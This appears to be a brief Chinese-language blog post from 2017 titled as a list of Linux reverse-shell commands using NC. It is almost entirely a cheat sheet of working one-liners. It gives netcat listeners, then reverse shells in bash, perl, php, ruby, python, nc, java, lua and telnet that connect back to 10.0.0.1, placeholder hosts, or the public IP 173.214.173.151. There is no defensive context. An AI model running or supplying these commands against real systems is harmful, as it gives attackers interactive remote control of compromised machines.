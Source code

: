 ```yaml
---
title: Linux下NC反弹shell命令
categories:
  - SYSTEM
date: 2017-11-08 19:15:30
tags:
---
```




本机开启监听：

```
nc -lvnp 4444
nc -vvlp 4444
```

目标机器开启反弹
bash版本：

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


perl版本：

```shell
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


php版本：

```shell
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


ruby版本：

```shell
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


python版本：

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


nc版本：

```shell
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999
```


java版本：

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


lua版本：

```shell
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```


NC版本不使用-e参数：

```shell
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc x.x.x.x 4444 1>/tmp/backpipe
/bin/bash -i > /dev/tcp/173.214.173.151/8080 0<&1 2>&1

mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
```


